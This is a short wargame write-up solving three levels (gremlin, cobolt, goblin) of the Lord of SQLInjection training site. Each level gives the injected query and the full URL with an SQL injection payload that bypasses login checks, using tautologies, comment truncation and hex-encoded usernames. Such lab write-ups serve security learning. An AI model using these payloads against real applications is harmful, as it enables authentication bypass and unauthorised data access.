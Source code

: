 # Lord of SQLInjection Write-ups

## gremlin

![gremlin](./pic/gremlin.PNG)

query: 
```SQL
select id from prob_gremlin where id='0'||1#' and pw=''
```

https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=0'||1%23

![gremlin](./pwned/gremlin.PNG)

<br>

## cobolt

![cobolt](./pic/cobolt.PNG)

query:
```SQL
select id from prob_cobolt where id='admin'#' and pw=md5('')
```
https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%23

![cobolt](./pwned/cobolt.PNG)

<br>

## goblin

![goblin](./pic/goblin.PNG)

query1:
```SQL
select id from prob_goblin where id='guest' and no=0 or no!=1
```
https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0%20or%20no!=1

query2:
```SQL
select id from prob_goblin where id='guest' and no=0 or ord(id)=97
```
https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0%20or%20ord(id)=97

query3:
```SQL
select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```
https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0%20or%20id=0x61646d696e

![cobolt](./pwned/goblin.PNG)
